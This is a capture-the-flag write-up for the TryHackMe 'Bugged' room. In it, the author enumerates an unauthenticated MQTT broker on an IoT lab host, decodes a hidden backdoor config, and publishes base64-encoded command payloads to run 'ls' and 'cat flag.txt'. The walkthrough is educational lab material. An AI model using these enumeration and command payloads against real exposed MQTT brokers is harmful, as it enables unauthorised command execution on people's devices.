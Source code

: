 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Bugged
# DESCRIPTION       . John likes to live in a very Internet connected world. Maybe too connected...
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/bugged
```

```bash
sudo nmap -sSVC -T5 -p- 10.10.32.250 -oN bugged
```

```
PORT     STATE SERVICE                  VERSION
1883/tcp open  mosquitto version 2.0.14
| mqtt-subscribe:
|   Topics and their most recent payloads:
|     $SYS/broker/load/messages/received/15min: 46.47
|     $SYS/broker/messages/received: 980
|     $SYS/broker/publish/bytes/received: 33462
|     $SYS/broker/bytes/received: 46808
|     $SYS/broker/clients/active: 2
|     $SYS/broker/load/bytes/received/5min: 3813.01
|     $SYS/broker/load/messages/sent/1min: 89.91
|     $SYS/broker/load/messages/received/1min: 89.91
|     patio/lights: {"id":4337133154914291862,"color":"PURPLE","status":"OFF"}
|     livingroom/speaker: {"id":3507782125210380749,"gain":44}
|     $SYS/broker/load/messages/received/5min: 79.87
|     $SYS/broker/load/sockets/5min: 0.22
|     $SYS/broker/load/bytes/received/15min: 2219.03
|     $SYS/broker/clients/disconnected: -1
|     $SYS/broker/uptime: 649 seconds
|     $SYS/broker/load/sockets/15min: 0.10
|     $SYS/broker/store/messages/bytes: 305
|     $SYS/broker/messages/sent: 980
|     $SYS/broker/clients/connected: 2
|     $SYS/broker/bytes/sent: 3921
|     $SYS/broker/load/bytes/sent/5min: 319.52
|     $SYS/broker/load/bytes/sent/1min: 359.63
|     $SYS/broker/load/messages/sent/5min: 79.87
|     storage/thermostat: {"id":3523070102871181476,"temperature":23.359861}
|     $SYS/broker/load/messages/sent/15min: 46.47
|     $SYS/broker/version: mosquitto version 2.0.14
|     $SYS/broker/load/sockets/1min: 0.91
|     $SYS/broker/load/bytes/received/1min: 4312.53
|     $SYS/broker/load/bytes/sent/15min: 185.93
|_    $SYS/broker/clients/inactive: -1
```

- After some documentation, I found out that MQTT - MQ Telemetry Transmission Protocol is widely used in IoT devices and runs on a publish-subscription "architecture".

- We see that `nmap` automatically subscribed to some topics, but I wanted to make sure it didn't miss anything, there was nothing standing out for me in the output provided.

```
mosquitto_sub -h 10.10.132.220 -t "#" -v
```

- I used the command above to listen to all topics. 

```
patio/lights {"id":7091344782331867621,"color":"RED","status":"OFF"}
{TRIMMED}
yR3gPp0r8Y/AGlaMxmHJe/qV66JF5qmH/config eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==
frontdeck/camera {"id":14205819063353097493,"yaxis":-140.63925,"xaxis":-139.70198,"zoom":3.083472,"movement":true}
livingroom/speaker {"id":7747913053972651785,"gain":45}
{TRIMMED}
storage/thermostat {"id":12634039171116278574,"temperature":23.250414}
```

- Notice the weird looking string ; judging by the character set used and by the padding `==` at the end, this must be base64-encoded. Let's decode it.

```
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"}
```

- We see that we have a `pub_topic` and a `sub_topic`. 

- Let's try listening to them

```
mosquitto_sub -h 10.10.132.220 -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub" -v
mosquitto_sub -h 10.10.132.220 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -v
```

- No traffic seems to be running through these topics, so I decided to try sending a message myself to both `pub` and `sub` topics while I was listening with the commands above on each of them.

```
mosquitto_pub -h 10.10.132.220 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m 'test'
```

- When publishing to `sub`, I got a reply in the listening `pub` terminal

```
SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk=
```

```
Invalid message format.
Format: base64({"id": "<backdoor id>", "cmd": "<command>", "arg": "<argument>"})
```

- I assume `id` was `cdd1b1c0-1c40-4b0f-8e22-61b357548b7d`,  the ID from the previous command.

- `cmd` should be HELP, CMD and SYS, again, from the previous command.

- `arg` should be the whatever command we want to execute.

- Knowing this, let's try listing the directory

```
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"}
```

- Which, after being base64 encoded, turns to 

```
eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogImxzIiwgImFyZyI6ICIifQ==
```

- I've sent the command using

```
mosquitto_pub -h "10.10.132.220" -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ=="
```

- And received

```
eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZy50eHRcbiJ9
```

- WHich is

```
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag.txt\n"}
```

- Great. The payload to get the flag is the base64-encoded output of 

```
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"}
```

```
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag{redacted}\n"}
```